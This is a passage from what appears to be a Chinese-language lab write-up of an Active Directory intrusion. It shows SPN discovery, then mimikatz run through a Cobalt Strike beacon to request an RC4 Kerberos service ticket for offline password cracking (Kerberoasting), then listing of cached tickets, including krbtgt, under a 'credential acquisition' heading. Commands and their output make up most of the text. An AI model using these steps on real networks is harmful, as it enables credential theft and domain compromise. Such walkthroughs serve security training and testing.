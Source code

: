 ```
	WSMAN/12server-web2
	WSMAN/12server-web2.ack123.com
	RestrictedKrbHost/12SERVER-WEB2
	HOST/12SERVER-WEB2
	RestrictedKrbHost/12server-web2.ack123.com
	HOST/12server-web2.ack123.com

发现存在 SPN!
```

mimikatz 申请创建票据，票据为**RC4加密**，所以可以通过**爆破**的方式得到服务对应用户的密码。

```
beacon> mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com
```

```
beacon> mimikatz kerberos::ask /target:mysql/16server-dc1.ack123.com
[*] Tasked beacon to run mimikatz's kerberos::ask /target:mysql/16server-dc1.ack123.com command
[+] host called home, sent: 750703 bytes
[+] received output:
Asking for: mysql/16server-dc1.ack123.com
   * Ticket Encryption Type & kvno not representative at screen

	   Start/End/MaxRenew: 2022/6/26 18:45:53 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
	   Service Name (02) : mysql ; 16server-dc1.ack123.com ; @ ACK123.COM
	   Target Name  (02) : mysql ; 16server-dc1.ack123.com ; @ ACK123.COM
	   Client Name  (01) : 12SERVER-WEB2$ ; @ ACK123.COM
	   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
	   Session Key       : 0x00000017 - rc4_hmac_nt      
	     7e76b3a78c2f06ff268007883a813f26
	   Ticket            : 0x00000017 - rc4_hmac_nt       ; kvno = 0	[...]
```

## 凭证获取

```
beacon> mimikatz kerberos::list
```

```
beacon> mimikatz kerberos::list
[*] Tasked beacon to run mimikatz's kerberos::list command
[+] host called home, sent: 750704 bytes
[+] received output:

[00000000] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:35:23 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
   Server Name       : krbtgt/ACK123.COM @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ; 

[00000001] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:24:32 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
   Server Name       : krbtgt/ACK123.COM @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ; 

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:45:53 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
   Server Name       : mysql/16server-dc1.ack123.com @ ACK123.COM
   Client Name       : 12server-web2$ @ ACK123.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 

[00000003] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2022/6/26 18:35:23 ; 2022/6/27 4:24:32 ; 2022/7/3 18:24:32
```